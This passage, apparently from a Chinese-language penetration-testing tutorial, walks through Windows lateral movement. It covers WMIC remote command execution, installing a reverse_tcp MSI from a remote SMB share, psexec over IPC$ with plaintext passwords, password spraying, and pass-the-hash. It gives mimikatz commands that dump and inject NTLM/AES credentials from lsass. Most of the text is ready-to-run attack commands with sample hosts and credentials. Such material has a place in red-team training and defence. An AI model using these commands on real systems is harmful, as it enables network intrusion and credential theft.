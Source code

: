 ```
wmic /node:192.168.1.131 /user:Administrator /password:123456@ process call create "cmd.exe /c ipconfig > C:\result.txt"
```
3. 远程安装MSI文件
通过调用Win32_Product.Install方法，可以控制远程主机安装恶意MSI文件，从而获得权限
```
wmic /node:192.168.1.131 /user:Administrator /password:123456@ product call install PackageLocation="\\192.168.1.1\mysmb\reverse_tcp.msi"
```

#### SMB横向
  SMB（服务器消息块），又称CIFS（网络文件共享系统），主要功能是使网络上的计算机能够共享计算机文件、打印机、串行端口和通信等资源。
  客户端与服务器建立连接后,客户端可以向服务器发送SMB命令允许用户访问共享、打开、读取或者是写入文件。
  SMB消息一般使用NetBIOS协议或TCP发送，分别使用端口139或445，目前倾向于使用445端口。
  **利用条件；**
1. 445端口开放
2. 知道账号密码
  **利用步骤：**
1. 建立IPC链接，psexec 需要明文或 hash 传递
```
net use \\192.168.3.32\ipc$ "admin!@#45" /user:administrator
psexec \\192.168.3.32 -s cmd       //需要先有 ipc 链接 -s 以 System 权限运行
```
2. 或者不用建立 IPC 直接提供明文账户密码
```
psexec \\192.168.3.21 -u administrator -p Admin12345 -s cmd
```

#### 密码喷洒
密码喷洒使用常见密码列表来访问一个域上的多个帐户。
撞库则是使用一组凭据来尝试访问多个域中的不同帐户。
**利用metasploit进行密码喷洒实质上还是弱口令攻击**
以上是知道账密的情况下横向

#### PTH-哈希传递(pass the hash)
  **利用 LM 或 NTLM 的值进行的渗透测试**
##### 在工作组环境中：
  Windows Vista 之前的机器，可以使用本地管理员组内用户进行攻击。
  Windows Vista 之后的机器，只能是administrator用户的哈希值才能进行哈希传递攻击，其他用户(包括管理员用户但是非administrator)也不能使用哈希传递攻击，会提示拒绝访问
##### 在域环境中：
  只能是域管理员组内用户(可以是域管理员组内非administrator用户)的哈希值才能进行哈希传递攻击，攻击成功后，可以访问域内任何一台机器
  如果要用普通域管理员账号进行哈希传递攻击，则需要修改修改目标机器的 LocalAccountTokenFilterPolicy为1
##### 攻击原理
  原理是攻击者可以直接通过 LM Hash 和 NTLM Hash 访问远程主机或服务，而不用提供明文密码。
  如果禁用了 ntlm 认证，PsExec 无法利用获得的 ntlm hash 进行远程连接，但是使用 mimikatz 还是可以攻击成功。
  安装补丁后可以使用 AES keys 代替 NT hash 来实现 ptk 攻击
##### 攻击流程
1. 用mimikatz抓取NTLM Hash：
```
privilege::debug
sekurlsa::msv
sekurlsa::ekeys
sekurlsa::logonpasswords
```
2. 用mimikatz将获取的Administrator的Hash添加进lsass中
```
privilege::debug
sekurlsa::pth /user:域用户名 /domain:域名 /aes256:aes256值 hash
```
3. 弹出shell访问远程主机或服务
```
net use \\192.168.52.138	   #建立IPC连接
dir \\192.168.52.138\c$		#查看连接域内ip的c盘文件夹
```